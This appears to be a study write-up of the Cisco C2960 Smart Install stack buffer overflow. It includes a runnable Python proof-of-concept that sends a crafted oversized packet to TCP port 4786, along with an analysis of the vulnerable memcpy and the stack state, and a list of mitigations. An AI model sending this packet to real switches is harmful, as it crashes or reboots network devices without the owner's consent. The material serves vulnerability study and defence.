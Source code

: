 ### INTRODUCTION
why is C2960 targeted by attackers/security researchers?
* affordable and wide spread model

what is the main characteristic of C2960 to be easy to exploit?
* there're features listed online but one important feature of Cisco IOS is its behavior in case an exception condition occurs if something goes wrong, Cisco IOS reboots a device

### REVISION
what is buffer?
* buffer is a small memory allocated specifically for input, used when a process or a program is executed

what is buffer overflow attack?
* when attacker enters arbitrary input to buffer, long enough to overrun the buffer's boundary and overwrite adjacent memory location
* stack based buffer overflow in short is also known as buffer overflow

why do buffer overflow take place?
* mostly due to bad programming written, use of unsafe c function and unsanitized input

what is watchdog?
* a timer which automatically reboot the system if it detects some programs are not working




### SETUP
`Host A         <-----------------> C2960 SI PoE 24 Switch (c2960-lanlitek9-mz.122-58.SE2.bin)`<br/>
`192.168.200.2      <----------------->  192.168.200.1`

### HOW TO CHECK IF SWITCH IS VULNERABLE
`SW>show vstack config`<br/>
`SW>show tcp brief all`




### PoC SCRIPT BREAKDOWN

    import socket 
    import struct 
    from optparse import OptionParser 

    # Parse the target options 
    parser = OptionParser() 
    parser.add_option("-t", "--target", dest="target", help="Smart Install Client", default="192.168.1.1")  
    parser.add_option("-p", "--port", dest="port", type="int", help="Port of Client", default=4786)  
    (options, args) = parser.parse_args() 

    def craft_tlv(t, v, t_fmt='!I', l_fmt='!I'): 
      return struct.pack(t_fmt, t) + struct.pack(l_fmt, len(v)) + v 

    def send_packet(sock, packet): 
      sock.send(packet)   

    def receive(sock):  
      return sock.recv() 

    if __name__ == "__main__": 

    print "[*] Connecting to Smart Install Client ", options.target, "port", options.port 

    con = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
    con.connect((options.target, options.port)) 

    payload = 'BBBB' * 44  
    shellcode = 'D' * 2048 

    data = 'A' * 36 + struct.pack('!I', len(payload) + len(shellcode) + 40) + payload 

    tlv_1 = craft_tlv(0x00000001, data)  
    tlv_2 = shellcode 

    hdr =  '\x00\x00\x00\x01'                                   # msg_from
    hdr += '\x00\x00\x00\x01'                                   # version
    hdr += '\x00\x00\x00\x07'                                   # msg_hdr_type
    hdr += struct.pack('>I', len(data))                         # data_length

    pkt = hdr + tlv_1 + tlv_2 

    print "[*] Send a malicious packet"  
    send_packet(con, pkt)



what is the objective of the script?
* the <SMI IBC Server Process> process contains a Smart Install Client implementation code
* the Smart Install Client starts a server on the TCP(4786) port (opened by default) to interact with the Smart Install Director
* a specially crafted malicious message ibd_init_discovery_msg for the stack-based buffer overflow occurs
* acts as the integrated branch director (IBD) 
* due to the no authentication desgin in this feature, this can be crafted easily
 

what is struct.park(function)?
* it packs a list of values into a string representation of the specified type
* !'I' --> format string for network also means big-endian
* fmt ---> format string

what is tlv?
* encoding scheme used within the data communication protocol
* for data formatting. when we want to send data to receiver, we prepare a TLV package that contains Tag-Length-Value datas
  1. data type/tag
  2. data length/size
  3. data value/content of the data
  
* format string for big-endian ---> (>I) 
* 4+4+4+4=16bytes for hdr ----> header which consists of |msg-from|version|msg_hdr-type|data_length|
* 36+4+(4*44)=216bytes  ---> TLV Data Value
* a single packet consists of | header (16 bytes)| TLV_1 (224 bytes)|TLV (2048 bytes) |


### CRAFTED PACKET STRUCTURE FROM THE SCRIPT
![packet structure](https://user-images.githubusercontent.com/23307275/39845863-de67a538-542a-11e8-9c23-7d5b38e13e75.PNG)


### WIRESHARK PACKET SNIFFING
![wireshark1](https://user-images.githubusercontent.com/23307275/39845865-dec1d724-542a-11e8-9ece-42d45e9f5526.PNG)

<br/>

![wireshark2](https://user-images.githubusercontent.com/23307275/39845860-ddc64f62-542a-11e8-90f1-d5e0707524b8.PNG)


### FUNCTION OF EXPOLIT IS LOCATED
* smi_ibc_handle_ibd_init_discovery_msg, SUB_B258CC

![overview](https://user-images.githubusercontent.com/23307275/39845857-d822a452-542a-11e8-9c19-e39ffbe45655.PNG)
![sub_routine](https://user-images.githubusercontent.com/23307275/39845855-d7c60620-542a-11e8-8bf1-408e90fcfcf3.PNG)


  R3: ptr to the tlv_type <br/>
  R4: length of tlv <br/>
  R5: ptr to the 16 bytes header <br/>
  R6: ptr to the TLV data <br/>
 
  ![allr](https://user-images.githubusercontent.com/23307275/39849919-5343e194-5441-11e8-809d-e86cc2236fda.PNG)
  <br/>
  ![r5](https://user-images.githubusercontent.com/23307275/39849921-57100046-5441-11e8-84e5-4cd2514e0378.PNG)
  <br/>
  ![r6](https://user-images.githubusercontent.com/23307275/39845864-de93c1fe-542a-11e8-922d-35b208c18658.PNG)
  <br/>

### LOGIC AND THE EXACT PLACE OF EXPLOIT

Focus 1:
``if (tlv_type == 1) {``
  ``#read tlv_length information``
``}``

Focus 2:
`if (tlv_length != 0) {`
  `#size = tlv_length     <-----(LOOPHOLE) NO VALIDATION CHECK`
`}

Focus 3:
`if (size != 0) {`
 `do {`
   `memcpy (src, dest, size);`
   `size-=1;`
 `} while (size!=0)`
`}`

* size is saved as a parameter for later memcpy (src, dest, size)
* tlv-type number assignment, http://irl.cs.ucla.edu/~cawka/spec/types.html
* size is the number of bytes to be copied
* fetch and copy data without verification
* just copy without checking if the size of the data exceed the allocated size of buffer <---- buffer overflow will occurs

### BEFORE AND AFTER BUFFER OVERFLOW IN ASSEMBLY LANGUAGE CODE
![from the code logic](https://user-images.githubusercontent.com/23307275/39845862-de324c8a-542a-11e8-9df2-02a10f7cfb7d.PNG)

  R3 is the buffer length of 0x58 #dst <br/>
  R4 is the content of the TlL data #scr <br/>
  R5 is the tlv length #size <br/>

  memcpy (src, dest, size)

* 0xd8 (216 bytes) to be copied to the allocated 0x58 (88 bytes) buffer  <--- buffer overflow occurs
* R4 (data content) to R3 (buffer) do while the size is not 0 (referenced back to focus 1)

![before overflow](https://user-images.githubusercontent.com/23307275/39845861-de072bfe-542a-11e8-8e33-585ee1d6aace.PNG)

* the figure above shows that the contents of 0xd8 bytes starting from 0x318e890 will be copied into the buffers starting from 0x3df24a8 in the stack frame.

![after](https://user-images.githubusercontent.com/23307275/39850049-fb82c5dc-5441-11e8-918c-16ed55ac8c87.PNG)
 <br/>
 
* the above figure shows the contents of the function stack frame after the memcpy operation. The stack frame of this function is 0x58 bytes in size. After the function is overwritten by 0x42424242, the pointer of the execution code area is skipped resulting a buffer overflow situation. 

* the content of the register changes along with the CPU instructions
* register is a small set of data holding places that are part of the computer processor
* stack based buffer flow in this case
* conclude (summarize) the result of crash

### MIGITATIONS
1. no vstack command to disable the smart installed function (cannot be persistent, require reconfigure after reboot)
2. use ACL to filter traffic from tcp port 4786, or limit through Control Panel Policy (CoPP)
3. patch and upgrade
4. use new plug and play (Cisco Network Plug and Play) solution instead
